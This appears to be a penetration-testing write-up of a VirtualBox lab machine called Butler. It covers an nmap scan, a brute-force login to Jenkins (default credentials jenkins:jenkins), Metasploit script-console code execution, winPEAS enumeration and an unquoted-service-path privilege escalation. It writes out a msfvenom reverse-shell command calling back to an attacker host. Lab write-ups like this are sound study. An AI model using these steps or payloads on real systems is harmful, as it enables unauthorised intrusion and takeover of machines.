Nmap
└─$ nmap -T4 -A -p- 192.168.1.115
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-23 18:34 -0400
Nmap scan report for 192.168.1.115 (192.168.1.115)
Host is up (0.00075s latency).
Not shown: 65523 closed tcp ports (reset)
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
5040/tcp open unknown
7680/tcp open pando-pub?
8080/tcp open http Jetty 9.4.41.v20210516
|_http-server-header: Jetty(9.4.41.v20210516)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
MAC Address: 08:00:27:F3:31:BC (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 21H2
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:f3:31:bc (Oracle VirtualBox virtual NIC)
|_clock-skew: 9h59m57s
| smb2-time:
| date: 2026-03-24T08:37:48
|_ start_date: N/A
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled but not required
TRACEROUTE
HOP RTT ADDRESS
1 0.75 ms 192.168.1.115 (192.168.1.115)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.87 seconds
8080/http
we found this page:

Bruteforce_login_attack
Using burpsuite


here we found the length of response number 1 and 3 are differant than others

loging with user and password: JeNkIns : jenkins

loging wiht user and password: jenkins : jenkins

MSF_console - RCE




first got a normal user and then using meterpreter - getsystem we previlaged escalate
https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/ (rce) Jenkins Script Console
privilege escalation
lets transfer winPeas.exe to that target which we can find some sensitive info so we can privilege escalate




good info :

look here we are included with admin group

lets check if we have a full access as adminstrator:

lets see what's privilage we have:
whoami.exe /priv

wow we have a good privileges :
SeDebugPrivilege (gold mine) : let us modify and control all proccess regardless if the owner is system / admin/others.
since we have full access as admin and access seDebugPrivilege that's enough to be privileged to
Nt Authority\System
2)
2) SeImpersonatePrivilege
thats another way to get escalate using potato attacks
- 3) 3)

Unquoted service paths with spaces can lead to privilege escalation due to how Windows resolves executable paths.
When a service is configured with a path that is not enclosed in quotes and contains spaces, Windows does not interpret it as a single path. Instead, it parses the path incrementally and attempts to locate an executable by progressively splitting the path at spaces and appending .exe.


���������� Looking for possible password files in users homes (T1552.001)
� https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#files-and-registry-credentials
C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml
��������� Searching for Oracle SQL Developer config files
(T1552.001)
��������� Slack files & directories
note: check manually if something is found
���������� Looking for LOL Binaries and Scripts (can be slow) (T1218)
� https://lolbas-project.github.io/
[!] Check skipped, if you want to run it, please specify '-lolbas' argument
���������� Enumerating Outlook download files
(T1114.001)
���������� Enumerating machine and user certificate files
(T1649,T1552.004)
���������� Searching known files that can contain creds in home (T1552.001)
� https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#files-and-registry-credentials
C:\Users\butler\AppData\Local\Packages\Microsoft.SkypeApp_kzf8qxf38zg5c\LocalState\dtlscert.der
C:\Users\butler\AppData\Local\Packages\Microsoft.SkypeApp_kzf8qxf38zg5c\LocalState\dtlskey.der
3

Unquoted service paths with spaces can lead to privilege escalation due to how Windows resolves executable paths.
When a service is configured with a path that is not enclosed in quotes and contains spaces, Windows does not interpret it as a single path. Instead, it parses the path incrementally and attempts to locate an executable by progressively splitting the path at spaces and appending .exe.
For example, given a service path like:
C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe
Windows will attempt to resolve and execute the following paths in order:
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Wise.exe
C:\Program Files (x86)\Wise\Wise Care.exe
C:\Program Files (x86)\Wise\Wise Care 365.exe
If an attacker has write permissions on any of the directories in this path, they can place a malicious executable with one of the above names. When the service starts, Windows may execute the attacker-controlled binary instead of the intended service binary.
since we have full access to the directory C:\Program Files (x86)\Wise\ we can create:
C:\Program Files (x86)\Wise\Wise.exe
and place a malicious payload (e.g., a reverse shell) inside it. When the service starts, Windows may execute this file with the privileges of the service (often SYSTEM), leading to privilege escalation.
so we are going to create a revese shell file using msfvenom:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.126 LPORT=4321 -f exe > shell.exe


Listening on port 4321

Now we are going to stop that service and start it again:


